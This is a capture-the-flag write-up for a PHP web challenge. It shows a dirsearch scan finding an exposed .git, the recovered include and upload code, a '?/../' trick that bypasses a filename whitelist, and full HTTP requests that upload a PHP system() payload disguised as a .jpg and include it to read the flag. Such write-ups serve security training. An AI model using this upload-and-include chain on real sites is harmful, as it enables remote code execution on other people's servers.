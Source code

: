 Information Search
----
信息收集很重要

Examination Site
----
* git
* PHP Include
* PHP Upload

Analysis
----
Use dirsearch.py to scan the website dir,and will found the .git
```bash
[09:12:56] 200 -  377B  - /.git/index
```
Then we will get 4 files:
* include.php
* upload.php
* showimage.php
* index.php

The essential code:
From *include.php*
```php
function check($file)
    {
        $whitelist = array('showimage.php');
        if (! isset($file) || !is_string($file)) {
            return false;
        }

        if (in_array($file, $whitelist)) {
            return true;
        }

        $file = mb_substr($file,0,mb_strpos($file . '?', '?'));
        if (in_array($file, $whitelist)) {
            return true;
        }

        $file = urldecode($file);
        $file = mb_substr($file,0, mb_strpos($file . '?', '?'));
        if (in_array($file, $whitelist)) {
            return true;
        }

        return false;
    }
```

From *upload.php*:
```php
if($file)
{
    $name = strtolower($file['name']);
    $ext = getImageExt($name);
    if(!in_array($ext,$whiteList))
    {
        exit('非法格式上传');
    }
    $randomString = getRandomString();
    $fileName =  $randomString.'.'.$ext;
    if(move_uploaded_file($file['tmp_name'],'ac78b24a/'.$fileName))
    {
        echo "<h2>文件上传成功!</h2>".'文件名:'.$fileName;
    }
    else
    {
        echo "<h2>文件上传失败!</h2>";
    }
}
```
Now we know that we need to upload a jpg with php code and then include it.
Howevers,we need to bypass the *$check()*.
The payloads is **showimage.php?/../../ac78b24a/[Your php code].jpg**

Exploit
----
The *upload.php* doesn't offer the upload interface so that we need to modify the http packages.
```http
POST /upload.php HTTP/1.1
Host: examination.cup.360.cn:9002
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:71.0) Gecko/20100101 Firefox/71.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Cookie: __huid=11fv2PitnuoaSLI4gxDUndFDIRvfP+nkDvFt7SmHgbm8s=; __guid=133126103.2566954415202299904.1571389874001.5566; Qs_lvt_317691=1571389874%2C1571390365; Qs_pv_317691=3339381377967604700%2C4248602918050323500%2C1090171495033724300%2C4183073154641787400; __DC_gid=59612149.737379581.1571389903664.1571389932667.3; __gid=176960547.101599076.1571463340619.1571463442726.4; bad_id73963b90-5cf1-11e9-9a78-b1dd2463a67d=4a565812-f232-11e9-8090-3fa0d6bf21d3; JSESSIONID=0BB281AAC5ABDCC251F305EACCF6DC37; PHPSESSID=cb2b3288fb797e27c3803dac23bcd663
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=---------------------------9011289509495
boundary=---------------------------9011289509495
Content-Length: 245

-----------------------------9011289509495
Content-Disposition: form-data; name="face"; filename="1.php%.jpg"
Content-Type: application/octet-stream

<?php
system('cat 739d3f54_flag.php');
?>
-----------------------------9011289509495
```

And it works!
```http
HTTP/1.1 200 OK
Server: panyun/0.9.0
Date: Sat, 02 Nov 2019 05:10:04 GMT
Content-Type: text/html; charset=UTF-8
Content-Length: 74
Connection: close
X-Powered-By: PHP/7.1.33
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding

<h2>文件上传成功!</h2>文件名:625347d9f50a20093077ae6ee40de99a.jpg
```

And then we use *include.php* to include it.
```http
GET /include.php?file=showimage.php?/../ac78b24a/625347d9f50a20093077ae6ee40de99a.jpg HTTP/1.1
Host: examination.cup.360.cn:9002
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:71.0) Gecko/20100101 Firefox/71.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Cookie: __huid=11fv2PitnuoaSLI4gxDUndFDIRvfP+nkDvFt7SmHgbm8s=; __guid=133126103.2566954415202299904.1571389874001.5566; Qs_lvt_317691=1571389874%2C1571390365; Qs_pv_317691=3339381377967604700%2C4248602918050323500%2C1090171495033724300%2C4183073154641787400; __DC_gid=59612149.737379581.1571389903664.1571389932667.3; __gid=176960547.101599076.1571463340619.1571463442726.4; bad_id73963b90-5cf1-11e9-9a78-b1dd2463a67d=4a565812-f232-11e9-8090-3fa0d6bf21d3; JSESSIONID=0BB281AAC5ABDCC251F305EACCF6DC37; PHPSESSID=cb2b3288fb797e27c3803dac23bcd663
Upgrade-Insecure-Requests: 1


```

Get Flag.
```http
HTTP/1.1 200 OK
Server: panyun/0.9.0
Date: Sat, 02 Nov 2019 05:10:04 GMT
Content-Type: text/html; charset=UTF-8
Content-Length: 74
Connection: close
X-Powered-By: PHP/7.1.33
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding

<?php


//flag{4305506ff1c88b05c2c53df2df8bcdce}


?>
```
